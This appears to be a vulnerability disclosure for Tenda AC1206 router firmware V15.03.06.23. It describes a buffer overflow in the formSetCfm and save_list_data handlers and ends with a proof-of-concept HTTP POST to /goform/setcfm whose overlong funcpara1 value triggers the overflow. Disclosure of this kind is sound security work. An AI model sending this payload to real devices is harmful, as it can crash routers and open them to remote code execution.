






# Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** AC1206

**Affected firmware version:** V15.03.06.23

**Firmware download address:** [AC1206 升级软件_腾达(Tenda)官方网站]

# Overview

Tenda AC1206 V15.03.06.23 firmware has a buffer overflow vulnerability in the formSetCfm function, function sprintf(mib_name, "%s.list%d", list_name, counta); The funcpara1 string content is copied to the target region without bounds checking, causing the buffer to overflow and overwrite the memory area behind the array, which may cause the program to crash or even remote code execution, triggering this security vulnerability.

# Vulnerability details

The handler function `formSetCfm ` is registered in the `common_register` function.



This is where the judgment goes into the if statement



The following retrieves the values of funcpara1 and funcpara2



The save_list_data function is then called



save_list_data function has overflow



# POC

```
POST /goform/setcfm HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=trzmji
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 960

funcname=save_list_data&funcpara2=aaa&funcpara1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

